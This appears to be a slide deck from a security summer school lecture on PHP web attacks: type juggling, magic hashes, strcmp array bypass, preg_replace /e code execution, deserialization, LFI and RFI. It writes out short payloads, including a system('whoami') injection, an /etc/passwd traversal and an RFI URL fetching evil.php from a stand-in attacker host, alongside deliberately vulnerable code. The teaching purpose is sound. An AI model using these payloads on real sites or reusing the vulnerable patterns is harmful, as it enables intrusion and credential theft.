

# Exotic Attacks

Security Summer School

---

## Server Side Languages Popularity


---

## Loose vs Strict Comparison

- == vs ===
- PHP, JavaScript
- PHP type juggling

---

## The Vulnerability

```php
<?php
    if ($_POST["password"] == $admin_password) {
    // if (... == "secure-pass1290") {
        login_as_admin();
    }
?>
```

---

## Bypassing The Vulnerability

```php
<?php
    if ($_POST["password"] == $admin_password) {
    // if (0 == "secure-pass1290") {
        login_as_admin();
    }
?>
```

---

## Conditions for it to work (1)

The POST parameter must not be converted into string.

```php
<?php
    if ($_POST["password"] == $admin_password) {
    // if ("0" == "secure-pass1290") {
        login_as_admin();
    }
?>
```

---

## Conditions for it to work (2)

It can happen when the application accepts input as JSON, for example:

`{"password": "0"}`

vs

`{"password": 0}`

---

## Magic hashes

- hashes that start with a leading 0e (the scientific notation for "0 to the power of some value") and have only numbers after that
- e.g.: `"0e462097431906509019562988736854"`

---

## Magic hashes - how the exploit works

- hashing: f(string) -> … -> "35266yhery34563"
- typecasting: `(int)"7_string" = 7;`
- `"0e015339760548602306096794382326" == "0"` -> True

Reminder: usually, we store in the database, and then compare, hashes of the passwords, not the passwords themselves.

---

## Magic hashes discovered so far



---

## The strcmp() function (PHP)

---

The `strcmp($str1, $str2)` function compares two strings.

The only possible return values are:

- **0**, if `$str1` is equal to `$str2`
- **< 0**, if `$str1` is less than `$str2`
- **\> 0**, if `$str1` is greater than `$str2`

---

## The strcmp() Vulnerability

```php
<?php
    if (strcmp($password, $_POST["password"]) == 0) {
        $success = true;
    } else {
        $success = false;
    }
?>
```

---

## Exploiting strcmp() - send POST data as array

`password[]=x` => `$_POST["password"] is an array`

---

## It gives a warning

`strcmp($password, [])` => warning:

`Warning: strcmp() expects parameter 2 to be string, array given in index.php on line 5`

---

## The result

But still, it has a return value:

`strcmp($password, []) = NULL`

---

## Finally

```php
<?php
    if (strcmp($password, $_POST["password"]) == 0) {
    //  if (NULL == 0) {
        $success = true;
    } else {
        $success = false;
    }
?>
```

---

## The preg_replace() function (PHP)

```php
<?php
    $in = "Somewhere, something incredible is waiting";
    echo preg_replace($_GET["what"], $_GET["with"], $in);
?>
```

- `$_GET['what']` -> a regex, e.g. `'/some/'`
- `$_GET['with']`` -> a string, e.g. `'many'`
- `$in` -> the source string in which the replacement will be done

---

## [PCRE modification flags](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)

- `e` will cause PHP to execute the result of the `preg_replace()` operation as PHP code (deprecated since PHP 5.5.0, removed completely since PHP 7.0.0)

---

## Using preg_replace() to execute commands

payload:

`?what=/Known/e&with=system('whoami')`

---

## PHP Object Injection/ PHP Inscure Object Deserialization

- `serialize()`/ `unserialize()`
- magic methods: `__wakeup()` (when unserialized), `__destruct()`, `__toString()`

---

## Python pickle module

<https://docs.python.org/3/library/pickle.html>

- The module lets you serialize and deserialize data.
- Essentially, this means that you can convert a Python object into a stream of bytes.
- Later you can reconstruct it by loading that stream of bytes.

---

## How to spawn a reverse shell

1. Create an account on [ngrok](https://ngrok.com/).
2. Follow the install instructions and forward one of your ports.
3. You will receive a ngrok host and a port.

---

## Local File Inclusion (LFI)

1. Path Traversal:

`http://victim.com/view.php?file=../../../../etc/passwd`

2. Remote Code Execution

---

## Remote File Inclusion (RFI)

- Include a remote file in the current web application and execute its contents
- Payload:

`http://victim.com?file=http://attacker-site.com/evil.php`
